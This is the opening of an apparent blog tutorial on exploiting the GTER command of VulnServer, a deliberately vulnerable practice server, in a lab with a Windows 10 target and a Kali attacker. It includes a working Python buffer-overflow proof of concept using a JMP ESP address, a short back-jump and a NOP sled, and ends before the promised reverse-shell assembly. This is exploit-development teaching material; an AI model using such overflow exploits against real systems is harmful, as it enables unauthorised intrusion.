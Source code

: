 ```yaml
---
layout: post
title: VulnServer GTER - no egghunter!
---
```

If you've exploited VulnServer via the GTER parameter then most likely you used an egghunter to get the job done and had to utilize one of the other commands VulnServer offers to stick your shellcode in. This is due to GTER providing a very small buffer space to work with. I decided to see what was possible with this limited buffer space and see if it was possible to get a shell without having to leverage another command to store shellcode in. After some tinkering I found out is in fact possible to get a reverse shell with the limited buffer space! However it requires a little bit of work and a lot of assembly. Let's get started.

### Setup

Our target machine will be Windows 10 (1803) x86, it's IP address will be 192.168.47.132.
Our attacking box is just a Kali VM with an IP of 192.168.47.128.
We'll be utilizing a little nasm, lots of Microsoft documentation, arwin, as well as Immunity Debugger on Windows. 

Let's first take a look at the PoC for exploiting GTER, I'll be skipping fuzzing, finding the offsets for EIP and also finding a useable address for JMP ESP.

Here's the PoC

```python
#!/usr/bin/python

import socket

host = '192.168.47.132'
port = 9999


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)


# 625011AF JMP ESP 
jmp_esp = "\xaf\x11\x50\x62"

# max short negative JMP
short_jmp = "\xeb\x80"


crash = "\x90" * 29 + "\x90" * 122 + jmp_esp + short_jmp + "\x43" * 500

buffer = "GTER "
buffer += crash
buffer += "\r\n"

s.connect((host, port))
s.send(buffer)
s.recv(1024)
s.close()
```
